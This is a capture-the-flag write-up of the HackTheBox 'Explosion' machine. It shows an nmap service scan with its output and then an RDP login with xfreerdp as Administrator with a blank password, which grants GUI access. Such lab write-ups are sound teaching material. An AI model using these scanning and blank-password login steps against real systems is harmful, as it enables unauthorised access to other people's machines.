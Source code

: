 ```yaml
---
title: "HackTheBox - Explosion"
author: Nasrallah
description: ""
date: 2022-06-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, rdp]
img_path: /assets/img/hackthebox/machines/explosion
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Explosion](https://app.hackthebox.com/starting-point?tier=0) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.190.225 (10.129.190.225)        
Host is up (0.29s latency).
Not shown: 996 closed tcp ports (reset)                 
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-07-22T10:55:03+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-07-21T10:33:19 
|_Not valid after:  2023-01-20T10:33:19 
|_ssl-date: 2022-07-22T10:55:11+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-22T10:55:06
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

We see that we are dealing with a windows machine running smb and RDP on port 3389.

# **Foothold**

Let's try to connect to RDP using `xfreerdp`.

The script need some switches for it to try to connect to the target.

 - /u:{username} : Specifies the login username.
 - /v:{target_IP} : Specifies the target IP of the host we would like to connect to.

We will be login as user **Administrator** and submit a blank.

`xfreerdp /v:10.129.190.225 /u:Administrator`

![](1.png)

Wait a little bit and we get a GUI access to the target as Administrator.

![](2.png)

For better access, use the following command `xfreerdp /v:10.129.190.225 /u:Administrator /dynamic-resolution +clipboard`. This will allow us to us clipboard and resize the pane.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).